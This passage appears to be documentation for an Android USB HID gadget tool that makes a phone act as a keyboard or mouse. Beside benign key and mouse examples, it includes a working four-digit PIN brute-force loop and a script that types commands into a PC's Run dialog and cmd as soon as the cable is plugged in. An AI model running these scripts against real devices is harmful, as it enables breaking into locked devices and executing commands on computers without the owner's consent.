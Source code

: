 	# Try to guess what this command sends
	echo left-ctrl left-alt del | ./hid-gadget-test /dev/hidg0 keyboard

	# Bruteforce 4-digit PIN-code, that's a particularly popular script
	# that people keep asking me for. It executes for 42 hours.
	for a in 0 1 2 3 4 5 6 7 8 9; do
	for b in 0 1 2 3 4 5 6 7 8 9; do
	for c in 0 1 2 3 4 5 6 7 8 9; do
	for d in 0 1 2 3 4 5 6 7 8 9; do
	echo $a $b $c $d
	for C in $a $b $c $d enter ; do echo "$C" ; sleep 0.2 ; done | ./hid-gadget-test /dev/hidg0 keyboard
	sleep 15
	done
	done
	done
	done

	# Press right mouse button
	echo --b2 | ./hid-gadget-test /dev/hidg1 mouse

	# Hold left mouse button, drag 100 pixels to the right and 50 pixels up, then release
	echo --hold --b1 | ./hid-gadget-test /dev/hidg1 mouse
	echo --hold --b1 100 0 | ./hid-gadget-test /dev/hidg1 mouse
	echo --hold --b1 0 -50 | ./hid-gadget-test /dev/hidg1 mouse
	echo --b1 | ./hid-gadget-test /dev/hidg1 mouse

You can check the modification time of file `/sys/devices/virtual/hidg/hidg0/dev`
to know when the USB cable has been plugged into PC, however this does not always work,
so it's better to simply check if hid-gadget-test returned an error.

Here's a sample shell script that will send a predefined key sequence when USB cable is plugged into PC:

	#!/system/bin/sh
	while true; do
		until echo volume-up | ./hid-gadget-test /dev/hidg0 keyboard >/dev/null 2>&1; do
			sleep 2
		done
		echo "USB cable plugged"
		sleep 1
		for C in 'left-meta r' c m d enter s t a r t space i e x p l o r e space x x x period c o m enter \
			; do echo "$C" ; sleep 0.3 ; done | ./hid-gadget-test /dev/hidg0 keyboard
		echo "Done sending commands"
		while echo volume-up | ./hid-gadget-test /dev/hidg0 keyboard >/dev/null 2>&1; do
			sleep 2
		done
		echo "USB cable unplugged"
	done
